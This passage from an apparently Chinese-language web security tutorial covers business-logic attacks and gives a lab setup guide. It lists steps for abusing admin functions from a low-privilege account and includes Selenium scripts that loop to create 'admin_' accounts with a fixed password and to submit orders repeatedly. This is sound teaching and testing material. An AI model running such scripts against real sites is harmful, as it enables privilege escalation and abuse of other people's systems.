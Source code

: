 **攻击步骤：**
1. 使用自动化工具模拟低权限账户的操作。
2. 触发管理员操作，如创建用户、修改权限等。
3. 收集生成的管理员账户或权限。

**工具使用：**
```python
from selenium import webdriver

driver = webdriver.Chrome()
driver.get("https://example.com/admin")

for i in range(100):
    driver.find_element_by_id("create_user_button").click()
    driver.find_element_by_id("username").send_keys(f"admin_{i}")
    driver.find_element_by_id("password").send_keys("password123")
    driver.find_element_by_id("submit_button").click()
```

## 3. 实验环境搭建指南

### 3.1 实验环境需求

- **操作系统**：Windows/Linux/macOS
- **浏览器**：Chrome/Firefox
- **工具**：Selenium、Postman、cURL
- **目标系统**：模拟电商平台、用户管理系统等

### 3.2 实验环境搭建步骤

1. **安装浏览器**：安装Chrome或Firefox浏览器。
2. **安装Selenium**：通过pip安装Selenium库。
   ```bash
   pip install selenium
   ```
3. **安装Postman**：下载并安装Postman工具。
4. **搭建目标系统**：使用Docker或虚拟机搭建模拟电商平台或用户管理系统。

## 4. 实际命令与代码示例

### 4.1 重复提交订单

```python
from selenium import webdriver

driver = webdriver.Chrome()
driver.get("https://example.com/order")

for i in range(100):
    driver.find_element_by_id("order_button").click()
    driver.find_element_by_id("order_id").send_keys(f"order_{i}")
    driver.find_element_by_id("submit_button").click()
```
